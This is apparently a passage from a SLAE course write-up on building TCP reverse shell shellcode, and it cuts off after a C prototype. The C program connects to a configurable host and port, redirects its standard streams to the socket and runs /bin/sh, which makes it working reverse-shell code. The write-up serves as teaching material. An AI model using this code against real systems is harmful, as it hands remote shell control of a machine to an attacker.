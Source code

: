 # Assignment 2 - TCP Reverse Shell

It's late. I'm tired. I'm getting the hang of this, but I've just got no time to work on it. There's so much to do and so little space to squeeze it into. It's like my life is being coded on a commodore 64! Alas, the SLAE is still proving to be a fun learning tool, so let's dive in.

## Problem Statement

* Create a Shell_Reverse_TCP shellcode
  - Reverse connects to configured IP and Port
  - Execs shell on successful connection
* IP and Port number should be easily configurable

## Forming a Base

This guide will follow very closely with assignment 1, as the problems are very similar. Let's start off by writing our own C program to do what we want:

**_assignment2.c_**

```c
#include <unistd.h> // dup2, execve
#include <netinet/in.h> // socket structures and constants
#include <arpa/inet.h> // inet_addr

#define RHOST "127.0.0.1"
#define RPORT 4444

int main() {
  int sockfd;
  struct sockaddr_in remote_addr;


  // CREATE SOCKET
  // create a new socket  (ipv4, tcp, tcp)
  sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);


  // CONNECT TO ADDRESS
  // create the address to connect to
  remote_addr.sin_family = AF_INET; // ipv4
  remote_addr.sin_port = htons(RPORT); // port in the correct endianness
  remote_addr.sin_addr.s_addr = inet_addr(RHOST);

  // Connect to the specified address (127.0.0.1:4444)
  connect(sockfd, (struct sockaddr*) &remote_addr, sizeof(remote_addr));


  // CHANGE STD FILE DESCRIPTORS
  // Overwrite old stdin, stdout, stderr fd's with the socket fd
  dup2(sockfd, 0); // stdin
  dup2(sockfd, 1); // stdout
  dup2(sockfd, 2); // stderr


  // EXECVE SHELL
  // Execute the new program /bin/sh, which will now use the socket to
  //  handle it's stdin, stdout, and stderr
  execve("/bin/sh", NULL, NULL);


  // EXIT
  // This will never happen because execve closes out for us.
```